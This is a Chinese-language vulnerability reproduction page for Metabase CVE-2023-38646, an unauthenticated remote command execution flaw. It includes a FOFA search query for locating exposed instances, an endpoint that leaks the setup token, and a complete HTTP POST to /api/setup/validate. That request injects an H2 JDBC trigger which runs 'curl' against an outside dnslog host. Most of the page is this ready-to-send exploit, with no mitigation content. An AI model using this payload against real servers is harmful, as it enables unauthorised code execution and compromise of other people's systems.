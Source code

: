 # Metabase validate 远程命令执行漏洞 CVE-2023-38646

## 漏洞描述

Metabase是一个开源的数据分析和可视化工具，它可以帮助用户轻松地连接到各种数据源，包括数据库、云服务和API，然后使用直观的界面进行数据查询、分析和可视化。未经身份认证的远程攻击者利用该漏洞可以在服务器上以运行 Metabase 服务器的权限执行任意命令

## 漏洞影响

Metabase

## 网络测绘

```
app="Metabase"
```

## 漏洞复现

登录页面

![image-20230828144918325](images/image-20230828144918325.png)

验证POC

```
/api/session/properties
```

![image-20230828144932056](images/image-20230828144932056.png)

```
POST /api/setup/validate HTTP/1.1
Host: 
Content-Type: application/json
Content-Length: 812

{
    "token": "e56e2c0f-71bf-4e15-9879-d964f319be69",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('curl ecw14d.dnslog.cn')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

![image-20230828144945859](images/image-20230828144945859.png)